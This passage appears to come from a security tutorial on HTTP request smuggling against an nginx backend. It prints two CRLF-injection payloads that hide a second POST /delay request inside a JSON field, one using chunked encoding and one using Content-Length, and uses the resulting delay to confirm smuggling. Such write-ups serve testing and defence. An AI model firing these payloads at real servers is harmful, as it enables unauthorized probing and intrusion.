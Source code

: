 ![nginx_backend](https://raw.githubusercontent.com/dhmosfunk/dhmosfunk.github.io/refs/heads/master/images/nginx_backend.png)

Now? There are some other payloads that can be used to identify successful request smuggling causing delays on the smuggled request.

The below payload causes a delay on the smuggled request with invalid transfer-encoding chunked.

```
"foo":"bar \r\n\r\nPOST /delay HTTP/1.1\r\nHost: localhost\r\nContent-Type: application/x-www-form-urlencoded\r\nTransfer-Encoding: chunked\r\n\r\n9999\r\n"
```

The below payload causes a delay on the smuggled request with content-length.

```
"foo":"bar \r\n\r\nPOST /delay HTTP/1.1\r\nHost: localhost\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 6\r\n\r\n"
```

Example screenshot:
